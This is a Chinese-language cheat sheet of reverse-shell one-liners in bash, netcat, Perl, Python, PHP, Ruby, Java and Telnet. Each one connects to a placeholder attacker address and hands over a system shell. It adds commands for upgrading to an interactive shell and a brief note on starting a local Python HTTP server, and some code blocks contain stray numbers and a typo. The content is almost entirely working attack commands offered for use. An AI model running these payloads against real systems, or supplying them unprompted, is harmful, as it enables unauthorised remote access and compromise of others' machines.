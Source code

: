 
## 反弹shell

Bash反弹shell
```bash
/bin/bash -c bash -i >& /dev/tcp/x.x.x.x/12345 0>&1
```
NC反弹shell
```bash
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 12388 >/tmp/f
```
perl反弹shell
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
Python反弹shell
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
PHP
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
Telnet
```bash
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```
获取反弹shell后，可使用python获得交互式shell
```python
python -c'import pty; pty.spawn("/bin/bash")'
python -c '''
import pty
while(1):
    try:
        pty.spawn("/bin/bash")
    except :
        contiune'''
```        


## 开启本地网络

python:

```python
2
python -m SimpleHTTPServer 8080
3
python3 -m http.server
```
